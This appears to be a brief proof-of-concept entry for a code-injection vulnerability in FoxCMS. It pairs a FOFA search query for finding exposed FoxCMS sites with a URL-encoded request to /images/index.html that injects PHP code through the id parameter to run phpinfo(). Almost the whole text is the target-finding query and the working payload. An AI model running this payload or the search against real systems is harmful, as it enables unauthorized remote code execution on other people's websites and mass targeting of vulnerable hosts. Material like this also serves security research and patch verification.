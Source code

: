 FOFA

```
body="foxcms-logo" || body="foxcms-container"
```

POC

```
/images/index.html?id=%24{%40print(phpinfo())}
```